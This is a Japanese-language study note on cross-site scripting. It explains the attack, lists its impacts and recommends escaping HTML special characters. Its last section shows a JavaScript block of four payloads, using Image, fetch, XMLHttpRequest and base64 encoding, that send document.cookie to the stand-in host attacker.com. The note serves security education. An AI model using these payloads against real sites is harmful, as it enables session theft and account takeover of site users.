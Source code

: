 
動的にWebページを生成するアプリケーションのセキュリティ上の不備を意図的に利用して、悪意のあるスクリプトを混入させることで、攻撃者が仕込んだ操作を実行させたり、別のサイトを横断してユーザのクッキーや個人情報を盗んだりする攻撃手法です。  
XSS脆弱性のあるWebアプリケーションでは、以下の影響を受ける可能性があります。

1. サイト攻撃者のブラウザ上で、攻撃者の用意したスクリプトの実行によりクッキー値を盗まれ、利用者が被害にあう。
2. 同様にブラウザ上でスクリプトを実行され、サイト利用者の権限でWebアプリケーションの機能を利用される。
3. Webサイト上に偽の入力フォームが表示され、フィッシングにより利用者が個人情報を盗まれる。

- 対策：Webページに入力されたデータの出力データが，HTMLタグとして解釈されないように処理する。
  プログラム中のデータをHTMLとして出力する際に、HTMLで特別な意味をもつ文字(<,>,",',&など)を実体参照に置き換えて無害化したり、HTMLタグを削除したりすることによりスクリプトとして解釈されないようにすることが重要です。

![[DOM Based XSS]]

![[Reflected XSS]]

![[Stored XSS]]

![[Content Security Policy#実行できるスクリプトについて]]

## 適切に保護されていないCookieを窃取するXSSサンプル
`Secure`しか設定されていないCookienに対して、以下のようなXSSでログイン中ユーザのCookieを盗み出すことができる。
`HttpOnly`(Javascriptからのアクセスを禁止する属性)が設定されていないCookieでは、`document.cookie`に保存されているので、スクリプトによってアクセスは可能
```javascript
// Common XSS payload formats:

// Basic - Send to attacker's server
new Image().src = "http://attacker.com/collect?cookie=" + document.cookie;

// Using fetch API
fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify({
        cookie: document.cookie,
        url: window.location.href
    })
});

// Using XMLHttpRequest
let xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com/collect', true);
xhr.send(document.cookie);

// Base64 encoding to avoid special characters issues
let encodedData = btoa(document.cookie);
new Image().src = "http://attacker.com/collect?data=" + encodedData;
```